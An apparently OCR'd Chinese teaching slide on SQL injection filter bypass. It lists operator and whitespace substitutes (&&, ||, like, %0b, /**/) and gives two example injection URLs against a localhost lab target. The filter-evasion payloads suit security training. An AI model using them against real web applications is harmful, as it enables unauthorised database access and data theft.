

SQL注入漏洞
5.5.1、 SQL绕过汇总
5、等价函数与命令
有些函数或命令因其关键字被检测出来而无法使用，可以通过使用对应的等价的函数或命令进行替换

常用等价符号：
and ==>  &&
or ==> ||
等于号 ==> like ,大于，小于
空格==> %20  %09  %0a  %0b  %0c  %0d  %a0  /**/  + -  .

例：127.0.0.1/cepo/?id=-1'/**/union/**/select/**/1,2,3--+
    127.0.0.1/cepo/?id=1'%0band%0b1%0blike%0b1--+